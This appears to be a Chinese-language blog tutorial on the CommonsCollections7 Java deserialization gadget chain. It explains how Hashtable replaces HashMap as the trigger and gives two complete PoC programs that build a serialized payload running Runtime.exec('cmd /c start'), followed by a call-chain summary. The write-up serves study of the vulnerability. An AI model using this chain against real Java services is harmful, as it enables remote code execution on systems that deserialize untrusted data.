

## 环境准备

JDK1.8(8u421)我以本地的JDK8版本为准、commons-collections(3.x 4.x均可这里使用3.2版本)

cc3.2：

```
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2</version>
</dependency>
```

## 正文

CC7是CC6的一个变种，在 ***\*CC7\****（CommonsCollections7）攻击链中，使用`HashTable`替换了CC6中的HashMap结构，下边来介绍一下HashTable是怎么替代HashMap来完成反序列化操作的。

## HashTable

Hashtable 与 HashMap 十分相似，是一种 key-value 形式的哈希表，可以说HashTable是一种阉割版的HashMap。也可以这么理解：`Hashtable` 是 `HashMap` 的简化版，提供了类似的功能，但在一些方面做了限制和差异化设计。

站在应用的角度上来分析一下这两个类主要的区别，如果不理解的话可以去查一下对应的资料，这个并不影响Java安全的学习。

### `Hashtable` 和 `HashMap` 的主要区别

1. **线程安全性**：
   - **`Hashtable`**：是**线程安全**的。所有的方法都是同步的，因此多个线程可以同时访问 `Hashtable`，而不需要额外的同步控制。但同步会带来性能上的开销。
   - **`HashMap`**：不是线程安全的。如果多个线程同时访问 `HashMap`，并且至少一个线程修改了映射关系，必须外部加锁来保证线程安全。
2. **Null 键和值**：
   - **`Hashtable`**：不允许 `null` 键或 `null` 值。如果你尝试插入 `null` 键或值，会抛出 `NullPointerException`。
   - **`HashMap`**：允许一个 `null` 键和多个 `null` 值。可以使用 `null` 作为键或者值来存储元素。
3. **性能**：
   - **`Hashtable`**：由于方法是同步的，线程安全保证会导致在多线程环境下性能较差。
   - **`HashMap`**：性能更高，因为它不是线程安全的，在单线程或外部管理同步的环境下，`HashMap` 的性能优于 `Hashtable`。
4. **迭代器**：
   - **`Hashtable`**：使用的是 `Enumerator`，这种迭代器比较古老，并且不支持 `remove()` 方法。
   - **`HashMap`**：使用的是 `Iterator`，它是现代 Java 集合框架的一部分，支持 `remove()` 方法，可以更加灵活地操作元素。
5. **子类**：
   - **`Hashtable`**：`Hashtable` 是一个较旧的类，是 `Dictionary` 类的子类。`Dictionary` 在现代 Java 中已经不推荐使用，更多的是通过 `Map` 接口来实现。
   - **`HashMap`**：`HashMap` 是 `Map` 接口的实现，更加现代化，也是 Java 集合框架的核心组成部分。
6. **底层实现**
   * `HashMap` 在底层使用了 **数组 + 链表 + 红黑树** 的结构，JDK 1.8 开始，`HashMap` 引入了 **红黑树** 来优化冲突处理，这样做是为了提高查找效率，特别是在哈希冲突非常严重的情况下。红黑树提供了 **O(log n)** 的查找、插入和删除操作，而链表则是 **O(n)** 的。
   * `Hashtable` 它的底层结构主要由 **数组 + 链表** 组成，它在发生哈希冲突时的查找效率较低，最坏情况下是 O(n)，而 `HashMap` 在严重冲突时会通过红黑树将查找效率降到 O(log n)，这使得 `HashMap` 在处理大量数据时具有更好的性能。

### 分析可利用代码

```java
private void readObject(java.io.ObjectInputStream s)
         throws IOException, ClassNotFoundException
{
    ......
    // Read the number of elements and then all the key/value objects
    for (; elements > 0; elements--) {
        @SuppressWarnings("unchecked")
            K key = (K)s.readObject();
        @SuppressWarnings("unchecked")
            V value = (V)s.readObject();
        // sync is eliminated for performance
        // 重点看这个方法，就是这里触发了漏洞利用
        reconstitutionPut(table, key, value);
    }
    ......
}

private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
        throws StreamCorruptedException
{
    ......
    // 这个调用了key的hashCode，如果key是构造好的TiedMapEntry攻击链，则会攻击链代码被执行
    int hash = key.hashCode();
    int index = (hash & 0x7FFFFFFF) % tab.length;
    for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
        if ((e.hash == hash) && e.key.equals(key)) {
            throw new java.io.StreamCorruptedException();
        }
    }
    // Creates the new entry.
    @SuppressWarnings("unchecked")
        Entry<K,V> e = (Entry<K,V>)tab[index];
    tab[index] = new Entry<>(hash, key, value, e);
    count++;
}
```

如果你对原理不太理解，可以参考CC5中的攻击链构造过程：https://www.cnblogs.com/erosion2020/p/18555069

## POC编写

这里ysoserial的代码写的还是比较繁琐的，这里给出两种写法，其中cc7bySimplify的代码是简化版本的，其中cc7byYsoSerial代码是ysoserial中的代码去掉工具类的版本。

可以先分析cc7bySimplify中的代码，待到有一点感觉后再去分析cc7byYsoSerial，其实代码都是一样的。但是ysoserial写的代码稍微有点绕。

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CommonsCollections7 {
    static String serialFileName = "commons-collections7.ser";
    public static void main(String[] args) throws Exception {
//        cc7bySimplify();
        cc7byYsoSerial();
        verify();
    }
    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }

    public static void cc7bySimplify() throws Exception {
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        // real chain for after setup
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs})};
        // 先创建LazyMap，用来将transformerChain包装成一个Map，当Map中的get方法被触发时就能直接触发到调用链
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);

        // 等同于ysoserial中的Reflections.setFieldValue(transformerChain, "iTransformers", transformers);写法
        Field iTransformers = transformerChain.getClass().getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
        //TODO===========================CC7新的触发点 START=============================
        Hashtable hashtable = new Hashtable();
        hashtable.put(entry, 1);
        lazyMap.clear();
        //TODO===============================CC6新的触发点 END=========================
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(hashtable);
        oos.flush();
        oos.close();
    }


    public static void cc7byYsoSerial() throws Exception {
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{});
        // real chain for after setup
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs})};
        // 先创建LazyMap，用来将transformerChain包装成一个Map，当Map中的get方法被触发时就能直接触发到调用链
        //TODO===========================CC7新的触发点 START=============================
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        // Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1);

        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);

        // Use the colliding Maps as keys in Hashtable
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        // 等同于ysoserial中的Reflections.setFieldValue(transformerChain, "iTransformers", transformers);写法
        Field iTransformers = transformerChain.getClass().getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);

        // Needed to ensure hash collision after previous manipulations
        lazyMap2.remove("yy");

        //TODO===============================CC6新的触发点 END=========================
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(hashtable);
        oos.flush();
        oos.close();
    }
}
```

## 调试

弹个cmd窗口



## 调用链总结(简化版 - cc7bySimplify)

* ObjectInputStream.readObject()
  * HashTable.readObject()
  * HashTable.reconstitutionPut()
    * TiedMapEntry.hashCode()
    * TiedMapEntry.getValue()
      * LazyMap.get()
        * ChainedTransformer.transform()
          * ConstantTransformer.transform()
          * InvokerTransformer.transform()
            * Method.invoke()
            * Class.getMethod()
          * InvokerTransformer.transform()
            * Method.invoke()
            * Runtime.getRuntime()
          * InvokerTransformer.transform()
            * Method.invoke()
            * Runtime.exec()